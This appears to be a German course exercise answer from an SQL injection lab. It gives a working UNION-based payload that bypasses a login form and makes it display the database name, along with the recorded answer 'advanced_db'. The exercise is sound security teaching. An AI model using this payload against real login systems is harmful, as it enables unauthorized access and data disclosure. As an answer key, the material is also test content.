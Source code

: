 Ändern Sie das Statement aus Aufgabe 2.1 so ab, dass Ihnen anstatt Ihres Nutzernamens beim erfolgreichen Login der Datenbankname angezeigt wird.

Tipp:
Verwenden Sie den Befehl `SELECT database();`.

Statement:
' UNION SELECT database(), MD5('pass'), 1, 1;--

>>3) Wie lautet der Name der Datenbank?<<
=== advanced_db
